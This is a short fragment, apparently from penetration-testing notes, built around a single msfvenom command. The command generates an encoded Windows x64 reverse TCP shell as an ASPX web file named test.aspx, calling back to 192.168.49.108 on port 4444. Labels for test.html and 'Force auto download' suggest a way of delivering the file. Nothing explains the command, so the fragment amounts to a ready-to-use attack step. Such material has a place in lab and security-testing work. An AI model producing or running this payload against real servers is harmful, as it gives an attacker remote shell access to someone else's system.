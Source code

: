 test.aspx

msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LPORT=4444 LHOST=192.168.49.108 -f aspx -e x64/zutto_dekiru -i 5 -o test.aspx

test.html

Force auto download